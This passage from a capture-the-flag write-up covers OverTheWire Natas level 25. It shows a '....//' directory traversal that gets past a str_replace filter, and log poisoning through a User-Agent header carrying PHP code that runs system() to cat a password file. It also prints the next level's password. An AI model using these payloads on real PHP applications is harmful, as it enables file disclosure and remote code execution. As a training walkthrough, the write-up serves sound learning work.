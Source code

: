 For directory traversal str_replace can be bypassed 

```php
filename=str_replace("../","",$filename);
```

using ....// 

The middle portion of ../ is removed and the other ../ stays providing us access to directory traversal. Using this we can access log file

```php
lang=....//logs/natas25_rrt69506q72a61oi0543anirg3.log
```

Now for getting access to natas26 password 

```php
function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```

HTTP_USER_AGENT could be changed to php code 

```php
User-Agent: <?php system("cat /etc/natas_webpass/natas26")?>
```

This first executes the code in case of error and writes the output in the log file. Using the directory traversal technique we can access the log file and get credentials.

natas26 : oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

# Level 26-27

![/assets/images/OverTheWire/Natas/Untitled%2020.png](/assets/images/OverTheWire/Natas/Untitled%2020.png)
